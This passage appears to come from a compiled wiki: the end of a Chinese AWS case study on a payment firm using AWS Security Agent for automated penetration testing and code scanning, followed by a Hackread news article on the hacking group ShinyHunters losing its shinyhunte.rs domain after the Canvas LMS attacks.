2\. 上传必要的应用上下文（API 文档、典型业务流程说明等），帮助 Agent 更好地理解我们的业务，从而构造贴合业务的攻击场景。

3\. 在渗透测试配置端，可自定义HTTP标头，可用于在WAF侧识别、观察aws security agent渗透测试请求。并支持配置多个账号credential，测试过程中，不同功能多账户进行权限交叉验证。

[](https://d2908q01vomqb2.cloudfront.net/472b07b9fcf2c2451e8781e944bf5f77cd8457c8/2026/05/27/security-agent-build-payment-application-intelligent-security-5.png)

\[图5\]

4\. 在每一次大版本上线前，由 AppSec 工程师在控制台一键发起渗透测试，或在 CI/CD 流水线中通过 API 自动触发。

5\. 测试结束后，导出 PDF 报告（含执行摘要、CVSS 评分、可复现攻击路径与修复建议），用于内部归档与外部审计提交。

[](https://d2908q01vomqb2.cloudfront.net/472b07b9fcf2c2451e8781e944bf5f77cd8457c8/2026/05/27/security-agent-build-payment-application-intelligent-security-6.png)

\[图6\]

6\. AWS Security Agent会将渗透过程中各个环节的agent的操作日志保存，便于发现问题后溯源。

[](https://d2908q01vomqb2.cloudfront.net/472b07b9fcf2c2451e8781e944bf5f77cd8457c8/2026/05/27/security-agent-build-payment-application-intelligent-security-7.png)

\[图7\]

**4.3.1 真实使用体感**

*   效率方面：传统人工渗透测试视系统体量需要几天到一周，而 AWS Security Agent 的一轮按需渗透测试几小时即可完成。这意味着我们可以从”季度级”的渗透节奏切换到”周级别”甚至”按版本”的节奏，这是过去靠堆人力完全做不到的。
*   效果方面：实事求是地说，AWS Security Agent 能发现真实问题——尤其令我们惊喜的是，它不仅能识别常规 OWASP 漏洞，还能发现越权漏洞，甚至部分业务逻辑漏洞，这是传统自动化工具几乎做不到的。当然，与资深人工渗透相比，AWS Security Agent 在某些深度场景上仍有提升空间——这一点我们建议各位客户保持客观预期，并不会”一招吃遍天”。
*   成本方面：AWS Security Agent 同时给到了我们高效率与低成本的组合，这让我们可以把渗透测试的覆盖范围从”少数核心系统”扩大到”几乎所有对外暴露的应用”，这对一家持牌支付机构的整体风险敞口管理意义非常大。

### 4.4 全量代码扫描：建立长期安全基线

在按需渗透测试之外，我们每周还会跑一次全仓库代码扫描，作为”地基”型工作。它的价值不在于发现新的高危漏洞，而在于持续盘点存量代码中的风险，让我们的 AppSec 团队在做季度回顾时有据可依。这条线我们倾向于周期性使用，与渗透测试的节奏保持一致。

### 4.5 多账号统一管理与凭证安全

飞来汇内部按业务/环境进行了严格的 AWS 多账号划分（生产、预发、合规审计等）。我们利用 AWS Security Agent 的 Cross-Account VPC 与 IAM Role 跨账号信任能力，使用一个集中的”安全治理账号”来统一管理所有 Agent 任务，遵循最小权限原则按需授予各业务账号的只读访问权限，相关密钥与令牌则统一托管在 [AWS Secrets Manager](https://aws.amazon.com/secrets-manager/) 中，避免任何形式的硬编码。

## **五、飞来汇采用 Security Agent 的收益**

### 5.1 渗透测试效率：从”周级”到”小时级”

维度

传统人工渗透

AWS Security Agent

单轮耗时

几天到一周（视系统体量）

几小时即可完成

触发节奏

季度/年度，资源受限

按需触发，可与每个版本同步

覆盖范围

仅最关键的少数应用

可横向覆盖大部分对外应用

综合成本

较高

显著更低

这一变化的实际意义是：我们终于可以让渗透测试节奏跟上发版节奏——这是过去靠堆人力都做不到的根本性改变。

### 5.2 增量扫描”近乎实时”，安全真正左移

得益于 AWS Security Agent 在 PR 阶段提供的”1~2 分钟反馈”，我们在不增加 AppSec 团队人力的情况下，把代码安全审查的触达面扩大到了每一次代码提交。这意味着大量本应由 AppSec 在上线前才能发现的问题，被前置到了开发者写代码的当下就能修复，整体修复成本大幅下降。

### 5.3 能发现越权与业务逻辑漏洞，弥补传统工具盲区

AWS Security Agent 给我们留下深刻印象的一点，是它能够发现越权漏洞与部分业务逻辑漏洞——这两类问题恰恰是支付行业最关心、传统自动化扫描器最薄弱的环节。我们也客观看待它当前在深度场景上的局限性，会让其与人工红队、内部安全众测形成互补，而不是替代关系。

### 5.4 报告与合规交付能力

AWS Security Agent 自带的 PDF 报告导出能力，包含执行摘要、CVSS 评分、漏洞复现路径、修复指南，可以直接交付给内部合规团队和外部审计师参考，显著降低了我们在内外部审计中的材料准备工作量。

### 5.5 AppSec 团队能力的”人均放大”

支付行业的 AppSec 工程师普遍稀缺。AWS Security Agent 让我们的安全工程师可以从”重复性的扫描和复测”中解放出来，把更多时间投入到威胁建模、红队演练、应急响应这类真正需要人类判断力的工作上。这是我们认为最具长期价值的一类收益。

## **六、落地最佳实践**

### 6.1 三类扫描的使用频率建议

结合飞来汇的实际经验，我们对三类能力的使用频率建议如下：

能力

建议频率

适用场景

增量代码扫描

高频/每次 PR

开发态左移，是日常使用最频繁的能力

全量代码扫描

周期性（如每周一次）

维护长期安全基线，定期巡检存量风险

按需渗透测试

周期性（每个大版本/每周一次）

上线前关卡，输出可审计的渗透报告

简而言之：增量扫描跑在日常，全量扫描和渗透测试跑在节拍上。

### 6.2 把”业务上下文”喂给 Agent，效果会大幅提升

AWS Security Agent 之所以在越权与业务逻辑漏洞场景上表现亮眼，是因为它能够”理解应用上下文”。我们的经验是：上传完整的 API 文档、关键业务流程说明、用户/商户角色矩阵，可以显著提升它构造攻击链的精准度。这一步是性价比最高的优化项。

### 6.3 与人工红队协同，而非替代

我们建议不要把 AWS Security Agent 视为人工渗透的替代品，而应将其视为”7×24 自动化基础层”：常规 OWASP 漏洞、越权漏洞、典型业务逻辑漏洞由 Agent 持续覆盖；更深度的攻击链、链式漏洞、社工类风险则交由人工红队/安全众测处理。两者形成”广覆盖 + 高深度”的互补结构，整体性价比远高于纯人工模式。

### 6.4 凭证与权限治理

*   所有触发 Security Agent 的 API 凭证统一存放在 [AWS Secrets Manager](https://aws.amazon.com/secrets-manager/) 中，应用通过 IAM Role 拉取，杜绝硬编码。
*   跨账号访问遵循最小权限原则，仅授予 Agent 完成扫描所需的只读权限。

## **七、总结与展望**

通过引入 AWS Security Agent，飞来汇成功地把应用安全模式从”周期性、人力密集型的人工渗透”升级为”7×24 自动化 + 关键场景人工补强”的智能 AppSec 体系，在不增加 AppSec 团队规模的前提下，实现了：

*   渗透测试效率从几天/一周缩短到几小时；
*   增量代码扫描在每次 PR 后 1~2 分钟反馈，安全真正左移到开发态；
*   在越权、业务逻辑漏洞等支付行业最关键的盲区上，首次有了可用的自动化能力。

在实践过程中，我们也基于一线使用经验对 AWS Security Agent 未来的能力演进有以下期待：

*   更深的业务逻辑漏洞挖掘：当前 Agent 在常规越权与简单逻辑漏洞场景已有不错表现，期待未来能在多步骤复合业务漏洞、状态机滥用、并发竞态等更深度的场景中继续提升发现能力，进一步缩小与资深人工渗透专家的差距。
*   更强的金融行业上下文理解：期待 Agent 在支付/清结算/风控等典型金融业务模型上有更多的”内置先验知识”，进一步降低我们上下文喂入的成本。
*   与 IDE 的更原生集成：当前增量代码扫描已经在 PR 阶段做到了”近实时”反馈，未来如果能进一步前移到 IDE 阶段，将进一步缩短反馈链路。

我们相信，随着 AI Agent 能力的持续演进，AWS Security Agent 会成为越来越多金融科技与出海企业 AppSec 体系中的”默认配置”。飞来汇也将持续与 AWS 安全产品团队保持密切协作，把这套方案打磨得更加贴合跨境支付场景，让全球贸易跨无止境，也让安全无止境。

**➡️ 下一步行动：**

**相关产品：**

*   [Amazon Secrets Manager](https://aws.amazon.com/cn/secrets-manager/?p=bl_pr_secrets-manager_l=1) — 密钥管理
*   [Amazon VPC](https://aws.amazon.com/cn/vpc/?p=bl_pr_vpc_l=2) — 隔离云网络
*   [Amazon IAM](https://aws.amazon.com/cn/iam/?p=bl_pr_iam_l=3) — 身份管理和访问权限
*   [Amazon WAF](https://aws.amazon.com/cn/waf/?p=bl_pr_waf_l=4) — Web 应用程序防火墙

**相关文章：**

*   [Inside AWS Security Agent: A multi-agent architecture for automated penetration testing](https://aws.amazon.com/cn/blogs/security/inside-aws-security-agent-a-multi-agent-architecture-for-automated-penetration-testing/?p=bl_ar_l=1)
*   [AWS Security Agent on-demand penetration testing now generally available](https://aws.amazon.com/cn/blogs/security/aws-security-agent-on-demand-penetration-testing-now-generally-available/?p=bl_ar_l=2)
*   [AWS Security Agent full repository code scanning feature now available in preview](https://aws.amazon.com/cn/blogs/security/aws-security-agent-full-repository-code-scanning-feature-now-available-in-preview/?p=bl_ar_l=3)
*   [航班变更信息智能识别解决方案](https://aws.amazon.com/cn/blogs/china/flight-change-information-intelligent/?p=bl_ar_l=4)
*   [（上篇）基于 AWS Bedrock AgentCore 构建企业级航空客服智能体 —— 基于AIDLC方法从需求分析到生产部署的完整实践](https://aws.amazon.com/cn/blogs/china/based-on-aws-bedrock-agentcore-build-enterprise-intelligent-based-on-aidlc-analytics-deploy-practice/?p=bl_ar_l=5)

\*前述特定亚马逊云科技生成式人工智能相关的服务目前在亚马逊云科技海外区域可用。亚马逊云科技中国区域相关云服务由西云数据和光环新网运营，具体信息以中国区域官网为准。

## 本篇作者

* * *


## 亚马逊云科技中国峰会

开发者挑战赛现场开启，基于真实业务场景亲手构建 Agent。

[](https://aws.amazon.com/cn/events/summits/shanghai/?ectrk=jyLXNovBYB51qgzUEipIpZcxlfE5%2Bs7NfDTnZwR7hFYtQmPUSToTuN%2FZO5doh20ZJ%2FloW6Rom0l3P4LLcoyUPA%3D%3D&sc_icampaign=glb-summit-blog-p2&sc_ichannel=ha&sc_iplace=blog&trk=ab30be54-aedd-480a-9364-ab0bf98e982d)


## 深度分析

### 多智能体协作在支付安全领域的结构性优势

AWS Security Agent 采用的多智能体架构在支付安全场景中展现出独特的结构性优势。与传统单 Agent DAST/SAST 工具的"检测—报告"线性模式不同，多智能体协作模拟了人类安全工程师的思考链条：侦察 Agent 绘制攻击面、漏洞挖掘 Agent 分析业务逻辑、验证 Agent 构造可利用路径。这种分工机制使系统在面对跨境支付中常见的"多步骤复合漏洞"（如越权访问→资金流水查询→状态机滥用）时，能够实现跨 Agent 的信息传递与协同推理，而不是像传统工具那样只能识别孤立的单点漏洞。飞来汇的实践表明，这一架构在越权漏洞和业务逻辑漏洞检测上的效果远超传统扫描器 。

### "双轮驱动"模型对金融科技 AppSec 组织的组织变革意义

飞来汇提出的"双轮驱动 + 自动闭环"模型，本质上重新定义了 AppSec 团队的工作边界。传统模式下，安全工程师大量时间消耗在"扫描—报告—复测"的循环中，难以投入威胁建模、应急响应等真正需要人类判断力的高价值工作。AWS Security Agent 将重复性扫描与复测工作自动化后，安全工程师得以释放出来去做深度威胁建模和安全架构设计——这是该方案最具长期价值的收益 。飞来汇的实践验证了这一组织变革的可行性：增量扫描与按需渗透测试形成互补，前者保障每一次代码变更的安全，后者确保关键版本上线前的攻击面评估，两者叠加实现了 AppSec 团队从"消耗性响应"到"能力建设者"的价值转型。

### 凭证治理最小权限原则在多账号架构中的工程化落地

AWS Security Agent 的 Cross-Account VPC 能力解决了金融科技公司长期面临的多账号环境下渗透测试覆盖难题。通过 IAM Role 跨账号信任关系，安全治理账号可按需授予业务账号的只读访问权限，实现跨账号扫描而无需在每个业务账号部署独立 Agent，既简化了管理复杂度，又遵循了最小权限原则。飞来汇将所有 API 凭证统一托管在 AWS Secrets Manager 中，通过 IAM Role 拉取，杜绝硬编码，这一工程实践对于采用 AWS Organizations 构建多账号架构的出海金融科技企业具有直接参考价值 。

### 安全左移的"无感侵入"UX 设计决定了工具的生命力

增量代码扫描能否真正落地，很大程度上取决于能否做到"无感侵入开发流程"。飞来汇选择将反馈嵌入 PR 评论而非另行通知，正是对开发者体验的精准把握——1~2 分钟的响应延迟控制在开发者切换工作上下文的窗口内，最大程度减少了对开发节奏的干扰 。这印证了一个 UX 层面的核心洞察：安全工具的检测能力固然重要，但如果反馈体验令开发者反感，工具很快就会被无视，最终沦为流水线上的一个"绿勾"。将安全能力内嵌至开发者已有工作流，而非强迫其切换上下文，是安全左移工具能否真正被高频使用的关键设计抉择。

### 合规驱动型安全建设中可审计报告的战略性价值

跨境支付企业常年面临内外部审计的压力，AWS Security Agent 自带的 PDF 报告导出能力（含执行摘要、CVSS 评分、漏洞复现路径、修复指南）直接对接了这一刚需。该报告可交付给内部合规团队和外部审计师参考，显著降低了审计材料准备工作量 。这提示我们：对于持牌金融科技企业，安全工具的输出不仅要是技术性的漏洞列表，还必须能够满足合规文档的结构化要求。可审计、可追溯、可交付的报告能力，应当成为安全工具选型的核心评估维度，而非附加功能。

## 实践启示

**建立分层防御体系**：金融科技企业在引入 AI 安全测试工具时，应建立"自动化覆盖广度 + 人类专家攻深度"的分层防御体系：AI 负责日常扫描和版本发布前的全面检测，人类专家则专注更深层的攻击链挖掘和安全众测场景，两者形成互补而非替代关系 。

**重视应用上下文准备**：在接入 AI 安全工具前，应提前准备完整的应用上下文材料（API 文档、关键业务流程说明、用户/商户角色矩阵），并建立上下文材料的持续更新机制。上传完整上下文是提升越权漏洞和业务逻辑漏洞检测精准度性价比最高的优化项 。

**评估 CI/CD 集成深度**：优先评估工具与现有 CI/CD 流水的集成深度。增量代码扫描应能够直接在 Pull Request 中反馈而非另行通知，渗透测试应能够通过 API 触发并集成到版本发布流水线，否则安全能力与开发节奏脱节，左移目标便成为空谈 。

**统一凭证治理**：在多账号 AWS 环境中，安全治理账号应统一管理所有 Agent 任务，跨账号访问遵循最小权限原则，所有 API 凭证统一托管在 AWS Secrets Manager 中，杜绝硬编码。这是金融科技企业安全工程实践的基础红线 。

**合规报告能力选型**：安全工具的选型应将"可交付合规报告"作为核心评估维度。对于 PCI DSS、SOC 2、ISO 27001 等认证要求下的支付企业，工具输出的漏洞报告必须能够直接满足内外部审计的结构化要求，而非仅提供技术性漏洞列表 。

## 相关实体
- [Data For Ai明其所耗知其所因让每一分 Token 消耗都可量化的全栈实践](https://github.com/QianJinGuo/wiki/blob/main/entities/data-for-ai明其所耗知其所因让每一分-token-消耗都可量化的全栈实践.md)
- [Powering Agentic Ai Sales Strategy With Amazon Bedrock Agent](https://github.com/QianJinGuo/wiki/blob/main/entities/powering-agentic-ai-sales-strategy-with-amazon-bedrock-agent.md)
- [How Aws Smgs Uses An Ai Powered Conversational Assistant To ](https://github.com/QianJinGuo/wiki/blob/main/entities/how-aws-smgs-uses-an-ai-powered-conversational-assistant-to-.md)
- [滴滴国际化客服质检智能化之路基于 Amazon Bedrock 的多语种多业务线质检实践](https://github.com/QianJinGuo/wiki/blob/main/entities/滴滴国际化客服质检智能化之路基于-amazon-bedrock-的多语种多业务线质检实践.md)
- [Automate Aml Alert Triage With Amazon Quick And Snowflake Co](https://github.com/QianJinGuo/wiki/blob/main/entities/automate-aml-alert-triage-with-amazon-quick-and-snowflake-co.md)

---

## Ch12.011 Canvas Hackers ShinyHunters Say Their Official Domain Was Suspended

> 📊 Level ⭐⭐ | 31.8KB | `entities/shinyhunters-canvas-domain-suspended.md`

# "Canvas Hackers ShinyHunters Say Their Official Domain Was Suspended"
# Canvas Hackers ShinyHunters Say Their Official Domain Was Suspended
Published Time: 2026-05-12T22:18:09+01:00
Markdown Content:
[](https://hackread.com/)[](https://hackread.com/)

*   [Hacking News](https://hackread.com/category/data-breaches/hacking-news/)
    *   [Leaks](https://hackread.com/category/data-breaches/hacking-news/leaks-affairs/)
    *   [WikiLeaks](https://hackread.com/category/data-breaches/hacking-news/wikileaks-affairs/)
    *   [Anonymous](https://hackread.com/category/data-breaches/hacking-news/anonymous/)
*   [Technology](https://hackread.com/category/technology/)
    *   [Android](https://hackread.com/category/technology/android/)
    *   [Apple](https://hackread.com/category/technology/anews/)
    *   [Google](https://hackread.com/category/technology/gnews/)
    *   [Microsoft](https://hackread.com/category/technology/microsoft/)
    *   [Samsung](https://hackread.com/category/technology/samsung/)
    *   [3D](https://hackread.com/category/technology/3d/)
    *   [How To](https://hackread.com/category/how-to/)
    *   [Artificial Intelligence](https://hackread.com/category/artificial-intelligence/)
        *   [Machine Learning](https://hackread.com/category/artificial-intelligence/machine-learning/)
*   [Cyber Crime](https://hackread.com/category/latest-cyber-crime/)
    *   [Phishing Scam](https://hackread.com/category/latest-cyber-crime/phishing-scam/)
    *   [Scams and Fraud](https://hackread.com/category/latest-cyber-crime/scams-and-fraud/)
*   [Security](https://hackread.com/category/security/)
    *   [Malware](https://hackread.com/category/security/malware/)
    *   [Censorship](https://hackread.com/category/cyber-events/censorship/)
    *   [Cyber Attacks](https://hackread.com/category/cyber-events/cyber-attacks-cyber-events/)
*   [Crypto](https://hackread.com/category/cryptocurrency/)
    *   [Blockchain](https://hackread.com/category/blockchain/)
*   [Surveillance](https://hackread.com/category/surveillance/)
    *   [Drones](https://hackread.com/category/surveillance/drones/)
    *   [NSA](https://hackread.com/category/surveillance/nsa/)
    *   [Privacy](https://hackread.com/category/surveillance/privacy/)
*   [Gaming](https://hackread.com/category/gaming/)
*   [Submit Press Release](https://hackread.com/submit-press-release/)
[](https://hackread.com/)[](https://hackread.com/)

*   [Hacking News](https://hackread.com/category/data-breaches/hacking-news/)
    *   [Leaks](https://hackread.com/category/data-breaches/hacking-news/leaks-affairs/)
    *   [WikiLeaks](https://hackread.com/category/data-breaches/hacking-news/wikileaks-affairs/)
    *   [Anonymous](https://hackread.com/category/data-breaches/hacking-news/anonymous/)
*   [Technology](https://hackread.com/category/technology/)
    *   [Android](https://hackread.com/category/technology/android/)
    *   [Apple](https://hackread.com/category/technology/anews/)
    *   [Google](https://hackread.com/category/technology/gnews/)
    *   [Microsoft](https://hackread.com/category/technology/microsoft/)
    *   [Samsung](https://hackread.com/category/technology/samsung/)
    *   [3D](https://hackread.com/category/technology/3d/)
    *   [How To](https://hackread.com/category/how-to/)
    *   [Artificial Intelligence](https://hackread.com/category/artificial-intelligence/)
        *   [Machine Learning](https://hackread.com/category/artificial-intelligence/machine-learning/)
*   [Cyber Crime](https://hackread.com/category/latest-cyber-crime/)
    *   [Phishing Scam](https://hackread.com/category/latest-cyber-crime/phishing-scam/)
    *   [Scams and Fraud](https://hackread.com/category/latest-cyber-crime/scams-and-fraud/)
*   [Security](https://hackread.com/category/security/)
    *   [Malware](https://hackread.com/category/security/malware/)
    *   [Censorship](https://hackread.com/category/cyber-events/censorship/)
    *   [Cyber Attacks](https://hackread.com/category/cyber-events/cyber-attacks-cyber-events/)
*   [Crypto](https://hackread.com/category/cryptocurrency/)
    *   [Blockchain](https://hackread.com/category/blockchain/)
*   [Surveillance](https://hackread.com/category/surveillance/)
    *   [Drones](https://hackread.com/category/surveillance/drones/)
    *   [NSA](https://hackread.com/category/surveillance/nsa/)
    *   [Privacy](https://hackread.com/category/surveillance/privacy/)
*   [Gaming](https://hackread.com/category/gaming/)
*   [Submit Press Release](https://hackread.com/submit-press-release/)
[](https://hackread.com/)[](https://hackread.com/)

##### The Latest

[](https://hackread.com/fintech-apis-modernize-business-cash-flow-management/)

###### [How Fintech APIs Are Modernizing Business Cash Flow Management](https://hackread.com/fintech-apis-modernize-business-cash-flow-management/)

[](https://hackread.com/famoussparrow-oil-gas-ms-exchange-server-exploit/)

###### [FamousSparrow Targeted Oil and Gas Industry via MS Exchange Server Exploit](https://hackread.com/famoussparrow-oil-gas-ms-exchange-server-exploit/)

[](https://hackread.com/chinatwill-typhoon-fake-apple-yahoo-sites-espionage/)

###### [China-Linked Twill Typhoon Uses Fake Apple and Yahoo Sites for Espionage](https://hackread.com/chinatwill-typhoon-fake-apple-yahoo-sites-espionage/)

[](https://hackread.com/teampcp-mistral-ai-repositories-mini-shai-hulud-attack/)

###### [TeamPCP Claims Sale of Mistral AI Repositories Amid Mini Shai-Hulud Attack](https://hackread.com/teampcp-mistral-ai-repositories-mini-shai-hulud-attack/)
*   [Zyxel](https://hackread.com/tag/zyxel/)
*   [Zynga](https://hackread.com/tag/zynga/)
*   [Zyklon B hacker](https://hackread.com/tag/zyklon-b-hacker/)
*   [Zygote](https://hackread.com/tag/zygote/)
*   [Zurich Insurance Group](https://hackread.com/tag/zurich-insurance-group/)
*   [Zues Malware](https://hackread.com/tag/zues-malware/)
*   [Zues](https://hackread.com/tag/zues/)
*   [ZTNA](https://hackread.com/tag/ztna/)
*   [ZTA Gateways](https://hackread.com/tag/zta-gateways/)
*   [ZTA](https://hackread.com/tag/zta/)


*   [Cyber Crime](https://hackread.com/category/latest-cyber-crime/)
*   [Security](https://hackread.com/category/security/)
 ShinyHunters says its shinyhunte.rs domain was suspended after the Canvas LMS attacks, forcing the group to move fully to its dark web (.onion) site.
[by Waqas](https://hackread.com/author/hackread/ "View all posts by Waqas")
May 12, 2026
3 minute read
The notorious hacking group ShinyHunters, recently linked to the large-scale compromise and defacement of **[Instructure's Canvas LMS](https://hackread.com/shinyhunters-instructure-canvas-lms-vimeo-data-breach/)** platform, claims its official clearnet domain has been suspended by the domain registry, fueling online speculation that the site may have been targeted following the group's recent attacks.
The issue surfaced on Monday, May 11, 2026, when the group's public-facing domain, `shinyhunte.rs`, suddenly went offline. Soon after, rumors spread across underground forums and social media platforms suggesting the domain may have been seized by law enforcement agencies, including speculation about possible FBI involvement.
The timing of the outage comes shortly after **[ShinyHunters](https://hackread.com/tag/ShinyHunters/)** claimed responsibility for attacks targeting Canvas LMS, a widely used learning management system adopted by universities and educational institutions worldwide.

### **Canvas LMS Attack**
Hackread.com previously **[reported](https://hackread.com/shinyhunters-defaces-canvas-lms-portal-universities-affected/)** on the cyberattack and confirmed that hundreds of universities experienced class disruptions following the Canvas LMS defacement incident.
The attack affected multiple universities globally, with compromised Canvas portals displaying a defacement message allegedly posted by ShinyHunters. The page included statements about the breach and threats to leak stolen data if ransom demands were not met.
[](https://hackread.com/wp-content/uploads/2026/05/shinyhunters-defaces-canvas-lms-portal-universities-affected.jpeg)
Defacement message left by the ShinyHunters hacking group on the Canvas LMS portal (Image credit: Hackread.com)
Despite the attention surrounding the group's clearnet website, the domain itself was used only for announcements and operational updates. Data leaks connected to the group's previous **[Salesforce](https://hackread.com/shinyhunters-hackers-threat-stolen-salesforce-data/)** and Anodot-related breaches were hosted separately on a **[dark web](https://hackread.com/ad-fraud-dark-web-economy-market/)** (.onion) leak accessible through the Tor network.
[](https://hackread.com/wp-content/uploads/2026/05/canvas-hackers-shinyhunters-official-domain-suspended-dark-web.png)
homepage of the now-suspended domain of the ShinyHunters hackers (Image credit: Hackread.com)
At the time of writing, the group's onion domain remains active, along with a notice stating "The domain shinyhunte.rs was suspended, it is not operated and owned by us anymore."
The group also warned visitors not to trust the suspended domain in the future, claiming it could later be registered or reused by unrelated actors for malicious activity. "It may be reclaimed by unknown persons in the future for malicious use. We do not control shinyhunte.rs anymore; it has been suspended by the registry."
Discover more
Computer Security
Open Online Courses
Distance Learning
ShinyHunters further stated that all future announcements and leak activity will now be conducted exclusively through its onion-based infrastructure. "We will operate at this onion domain only moving forward. Anyone claiming to be us anywhere is impersonating."
[](https://hackread.com/wp-content/uploads/2026/05/lms-canvas-hackers-shinyhunters-official-domain-suspended.png)
ShinyHunters' announcement on its dark web site (Image credit: Hackread.com)

### **Understanding the .RS Domain**
The `.rs` domain is the country code top-level domain (ccTLD) assigned to Serbia. The abbreviation "RS" comes from "Republika Srbija," meaning the Republic of Serbia. The namespace is managed by the Serbian National Internet Domain Registry, commonly known as RNIDS.
While [**domain suspensions**](https://hackread.com/dailystormer-booted-off-by-austrian-domain-registrar/) are not unusual in cases involving malware distribution, phishing, ransomware, or cybercrime operations, such actions generally require abuse complaints, supporting evidence, or requests from security organizations, hosting providers, CERT teams, or law enforcement agencies.
It remains unclear whether Serbian authorities or the registry itself acted independently, or whether the suspension followed requests or evidence submitted by foreign agencies investigating ShinyHunters' recent activity.
At this stage, there is also no public evidence confirming that the domain was officially seized by the FBI or any other law enforcement body.
Discover more
Technology News
Educational Software
Antivirus & Malware

### **Moving Away From the Clearnet**
Although losing a domain can temporarily disrupt operations, cybercriminal groups often recover quickly by registering replacement domains under different extensions or relocating activity to **[decentralized infrastructure](https://hackread.com/web3-needs-decentralized-infrastructure-ipfs/)**.
However, ShinyHunters' decision to abandon clearnet operations entirely and rely only on its onion-based platform suggests the group is becoming more cautious about operational security and exposure following increased public attention surrounding the Canvas LMS attacks.
Additionally, the group's continued use of a Tor-based onion service makes disruption more difficult because onion domains operate outside the traditional DNS system managed by registries and ICANN-linked providers.

##### [Waqas](https://hackread.com/author/hackread/)
[](https://hackread.com/author/hackread/)
 I am a UK-based cybersecurity journalist with a passion for covering the latest happenings in cybersecurity and tech world. I am also into gaming, reading and investigative journalism.
[View Posts](https://hackread.com/author/hackread/)

*   [Canvas](https://hackread.com/tag/canvas/)
*   [Cyber Crime](https://hackread.com/tag/cyber-crime/)
*   [Cybersecurity](https://hackread.com/tag/cybersecurity/)
*   [data breach](https://hackread.com/tag/data-breach/)
*   [Domain](https://hackread.com/tag/domain-2/)
*   [Instructure](https://hackread.com/tag/instructure/)
*   [LMS](https://hackread.com/tag/lms/)
*   [Serbia](https://hackread.com/tag/serbia/)
*   [ShinyHunters](https://hackread.com/tag/shinyhunters/)

##### Leave a Reply [Cancel reply](https://hackread.com/canvas-hackers-shinyhunters-official-domain-suspended/#respond)
Your email address will not be published.Required fields are marked *
Comment *
Name *
Email *
Website
Δ
View Comments (0)

##### Subscription Form

Email Address*
FIRSTNAME
LASTNAME

##### Latest Posts
*   [How Fintech APIs Are Modernizing Business Cash Flow Management](https://hackread.com/fintech-apis-modernize-business-cash-flow-management/)
*   [FamousSparrow Targeted Oil and Gas Industry via MS Exchange Server Exploit](https://hackread.com/famoussparrow-oil-gas-ms-exchange-server-exploit/)
*   [China-Linked Twill Typhoon Uses Fake Apple and Yahoo Sites for Espionage](https://hackread.com/chinatwill-typhoon-fake-apple-yahoo-sites-espionage/)
*   [TeamPCP Claims Sale of Mistral AI Repositories Amid Mini Shai-Hulud Attack](https://hackread.com/teampcp-mistral-ai-repositories-mini-shai-hulud-attack/)
*   [Instructure Reaches Deal with ShinyHunters to Prevent Canvas Data Leak](https://hackread.com/instructure-shinyhunters-deal-prevent-canvas-data-leak/)

##### PRESS RELEASE
*
 [](https://hackread.com/lyrie-ai-joins-first-batch-of-anthropics-cyber-verification-program/)

    *   [Press Release](https://hackread.com/category/press-release/)

### [Lyrie.ai Joins First Batch of Anthropic's Cyber Verification Program](https://hackread.com/lyrie-ai-joins-first-batch-of-anthropics-cyber-verification-program/)
[by CyberNewswire](https://hackread.com/author/cybernewswire/ "View all posts by CyberNewswire")
*
 [](https://hackread.com/luxsci-launches-enterprise-grade-hipaa-compliant-email-security-for-mid-sized-healthcare-organizations/)

    *   [Press Release](https://hackread.com/category/press-release/)

### [LuxSci Launches Enterprise-Grade HIPAA-Compliant Email Security for Mid-Sized Healthcare Organizations](https://hackread.com/luxsci-launches-enterprise-grade-hipaa-compliant-email-security-for-mid-sized-healthcare-organizations/)
[by CyberNewswire](https://hackread.com/author/cybernewswire/ "View all posts by CyberNewswire")
*
 [](https://hackread.com/criminal-ip-and-securonix-threatq-collaborate-to-enhance-threat-intelligence-operations/)

    *   [Press Release](https://hackread.com/category/press-release/)

### [Criminal IP and Securonix ThreatQ Collaborate to Enhance Threat Intelligence Operations](https://hackread.com/criminal-ip-and-securonix-threatq-collaborate-to-enhance-threat-intelligence-operations/)
[by CyberNewswire](https://hackread.com/author/cybernewswire/ "View all posts by CyberNewswire")
*
 [](https://hackread.com/brinker-introduces-novel-approach-to-deepfake-detection/)

    *   [Press Release](https://hackread.com/category/press-release/)

### [Brinker Introduces a Novel Approach to Deepfake Detection](https://hackread.com/brinker-introduces-novel-approach-to-deepfake-detection/)
[by CyberNewswire](https://hackread.com/author/cybernewswire/ "View all posts by CyberNewswire")
*
 [](https://hackread.com/breachlock-named-representative-vendor-in-2026-gartner-market-guide-for-adversarial-exposure-validation/)

    *   [Press Release](https://hackread.com/category/press-release/)

### [BreachLock Named Representative Vendor in the 2026 Gartner Market Guide for Adversarial Exposure Validation](https://hackread.com/breachlock-named-representative-vendor-in-2026-gartner-market-guide-for-adversarial-exposure-validation/)
[by CyberNewswire](https://hackread.com/author/cybernewswire/ "View all posts by CyberNewswire")

##### Related Posts
*   [Hacking News](https://hackread.com/category/data-breaches/hacking-news/)
*   [Cyber Crime](https://hackread.com/category/latest-cyber-crime/)

## [Baltimore' 911 CAD system hacked; remained suspended for 17 hours](https://hackread.com/baltimore-911-cad-system-hacked-suspended/)
 The 911 dispatch system of Baltimore became the target of hack attack over the weekend. As per Pugh…
[by Waqas](https://hackread.com/author/hackread/)

*   [Cyber Crime](https://hackread.com/category/latest-cyber-crime/)
*   [Phishing Scam](https://hackread.com/category/latest-cyber-crime/phishing-scam/)

## [Scammers using voicemail email phishing scam to steal data](https://hackread.com/scammers-voicemail-email-phishing-scam-steal-data/)
 Scammers are taking advantage of COVID-19 pandemic to spread a voicemail email phishing scam.
[by Waqas](https://hackread.com/author/hackread/)

Read More
[](https://hackread.com/cloudflare-mitigates-5-6-tbps-mirai-ddos-attack/)

*   [Cyber Attacks](https://hackread.com/category/cyber-events/cyber-attacks-cyber-events/)
*   [Security](https://hackread.com/category/security/)

## [Cloudflare Mitigates Massive 5.6 Tbps Mirai-Variant DDoS Attack](https://hackread.com/cloudflare-mitigates-5-6-tbps-mirai-ddos-attack/)
 Cloudflare mitigates a record-breaking 5.6 Tbps DDoS attack, highlighting the growing threat of hyper-volumetric assaults. Learn about the…
[by Deeba Ahmed](https://hackread.com/author/deeba/)

*   [Malware](https://hackread.com/category/security/malware/)
*   [Security](https://hackread.com/category/security/)

## [Kubernetes Clusters Targeted by Siloscape Malware](https://hackread.com/kubernetes-clusters-targeted-siloscape-malware/)
 Siloscape is regarded as an unusual malware that focuses on Linux as the preferred OS for managing cloud environments and applications.
[by Deeba Ahmed](https://hackread.com/author/deeba/)
[](https://hackread.com/)[](https://hackread.com/)
